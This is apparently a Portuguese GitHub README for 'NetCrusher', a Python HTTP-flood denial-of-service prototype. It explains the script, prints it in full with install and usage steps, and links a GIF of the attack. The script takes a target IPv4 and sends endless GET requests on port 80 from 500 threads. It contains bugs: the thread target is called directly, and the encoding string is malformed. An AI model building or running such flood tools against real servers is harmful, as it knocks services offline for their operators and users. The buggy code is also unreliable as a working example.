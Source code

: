 # DOS simples

## Introdução 

- NetCrusher é um código de ataque Dos simples, sendo utilizado como base para uma ferramenta que negará Serviço na Camada de Aplicação. Esse Código realiza um ataque de Flood HTTP,
um tipo de ataque de negação de serviço (DoS), enviando um grande número de solicitações HTTP GET para um servidor alvo.

- Vale ressaltar que isso é um protótipo. Ele será a base da base pro que será a ferramenta final.

- Código 
<div style="display: inline_block"><br>
   <img align="center" alt="foto-teste" src="https://media.discordapp.net/attachments/1216774284471570473/1240432389948444794/image.png?ex=66468a2f&is=664538af&hm=34c7eab336f50442ef581240a3d67d6bfc93185067781cd424e8d93164530978&=&format=webp&quality=lossless"
</div> 

  >Imagem do código na shell
  * Este código em Python parece ser uma implementação de um ataque de negação de serviço (DoS) do tipo HTTP flood. Vou explicar cada parte do código:
Importações:

```python
      import socket
      import threading
```



- Estas bibliotecas são importadas para permitir o uso de sockets (conexões de rede) e threading (execução de múltiplas threads simultaneamente).
Entrada do usuário:

```python
      target = str(input("entre com o iPv4: "))
      port = 80
```


- Aqui, o código solicita ao usuário que insira o endereço IPv4 do alvo. A porta é definida como 80, que é a porta padrão para tráfego HTTP.

  * Função
 
```python
      http_flood:
      def http_flood():
    while True:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        s.sendto(("GET / HTTP/1.1 \r\n").encode('ascii,'), (target,port))
        s.sendto(("Host: 192.168.56.2" +"\r\n\r\n").encode('ascii'), (target,port))
        print("Mandando Solicitação")
```

- Esta função é responsável por criar uma conexão TCP com o servidor de destino na porta 80 e enviar repetidamente uma solicitação HTTP GET. A função está em um loop infinito (while True), o que significa que continuará enviando solicitações até que o programa seja interrompido.

```python
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) #Cria um socket TCP.
    s.connect((target, port)) #Conecta ao alvo na porta especificada.
    s.sendto(("GET / HTTP/1.1 \r\n").encode('ascii,'), (target, port)) #Envia uma solicitação HTTP GET.
    s.sendto(("Host: 192.168.56.2" + "\r\n\r\n").encode('ascii'), (target, port)) #Envia o cabeçalho Host.
    print("Mandando Solicitação") #Imprime uma mensagem indicando que a solicitação foi enviada.
```


- Criação e inicialização das threads:

```python
  for i in range(500):
  thread = threading.Thread(target=http_flood())
  thread.start()
  Aqui, o código cria 500 threads, cada uma executando a função http_flood.

```





- instalação: 
  * git clone:
```python
import socket
import threading

target = str(input("entre com o iPv4: "))
port = 80

def http_flood():
    while True:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        s.sendto(("GET / HTTP/1.1 \r\n").encode('ascii,'), (target, port))
        s.sendto(("Host: 192.168.56.2" + "\r\n\r\n").encode('ascii'), (target, port))
        print("Mandando Solicitação")


for i in range(500):
    thread = threading.Thread(target=http_flood())
    thread.start()
```

- COMO USAR:
  * python3 NetCrusher

- DEMONSTRAÇÃO: 

<div style="display: inline_block"><br>
  <img align="center" alt="gif" src="https://cdn.discordapp.com/attachments/1141095761069752330/1240441549414993961/Video_sem_titulo.gif?ex=664692b7&is=66454137&hm=10154f0bd484bc5a1fa1c2cff432144ae1f3253edabce67f9e651bff61460b63&"
</div> 

  >GIF do ataque
